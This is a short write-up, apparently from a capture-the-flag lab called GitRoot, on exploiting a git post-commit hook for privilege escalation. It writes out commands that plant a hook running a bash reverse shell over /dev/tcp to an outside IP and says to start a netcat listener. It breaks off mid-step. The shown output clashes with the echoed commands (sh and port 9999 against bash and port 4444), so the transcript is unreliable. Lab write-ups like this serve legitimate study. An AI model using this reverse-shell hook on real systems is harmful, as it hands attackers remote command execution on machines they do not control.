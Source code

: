 

# Exploiting Post-Commit

1. Create a post-commit file with a bash reverse shell

```
beth@GitRoot:~$ cd ~
beth@GitRoot:~$ mkdir -p .git/hooks && cd .git/hooks
beth@GitRoot:~/.git/hooks$ echo '#!/bin/bash' > post-commit
beth@GitRoot:~/.git/hooks$ echo '/usr/bin/bash -i >& /dev/tcp/192.168.118.3/4444 0>&1' >> post-commit
beth@GitRoot:~/.git/hooks$ cat post-commit
#!/bin/sh
/usr/bin/sh -i >& /dev/tcp/192.168.118.3/9999 0>&1
beth@GitRoot:~/.git/hooks$ chmod 777 post-commit
beth@GitRoot:~/.git/hooks$
```
2. Start a netcat listener on port 4444. 
3. Compress the .git/ contents into a zip file as requested and copy it to the directory which is being uncompressed and committed:
